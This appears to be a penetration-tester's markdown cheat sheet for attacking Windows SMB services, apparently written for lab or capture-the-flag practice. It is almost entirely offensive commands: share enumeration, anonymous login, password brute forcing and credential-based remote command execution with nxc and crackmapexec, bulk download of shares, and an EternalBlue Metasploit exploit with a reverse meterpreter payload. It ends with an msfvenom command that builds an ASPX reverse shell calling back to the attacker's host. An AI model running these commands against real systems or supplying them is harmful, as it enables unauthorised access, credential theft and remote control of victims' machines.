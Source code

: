 - `Always check guest login and then check public share with write and execute permission and you will find credential, files pdf ps1 etc`

## Basic SMB Enumeration

```bash
smbclient -L //<ip>               # List available shares (anonymous)
smbclient //ip/share              # Connect to share (anonymous)
smbclient //ip/share -u <user>    # Connect as specific user

smbmap -H <ip>                    # (public shares) (check read write and execute)

enum4linux -a <ip>                # best command to find details and users list

crackmapexec smb <ip> -u guest -p '' --shares  # List shares with null session

# brute forcing
nxc smb 10.129.7.180 -u users.list -p passwords.list


nxc smb 10.129.7.180 -u users.list -p pws.list --continue-on-success


nxc smb 10.129.7.180 -u users.list -p pws.list --local-auth


get # download
put  # upload


smb: \> recurse ON       # Enable recursive download
smb: \> prompt OFF       # Disable confirmation for each file
smb: \> mget *           # Download everything

rpcclient -U "" <ip> 
```

## Vulnerability Scanning
```bash
nmap -p 445 --script vuln -Pn -T4 -v <ip>   # Check for SMB vulns (e.g., MS17-010)
```


```bash
crackmapexec smb 10.10.110.17 -u valery -p 'liverpool' -x 'whoami' --exec-method smbexec
```
---

# EternalBlue (MS17-010)
### Exploit with Metasploit
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
set LHOST <your_ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

### MSFVenom Payload 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f aspx -o shell.aspx
```
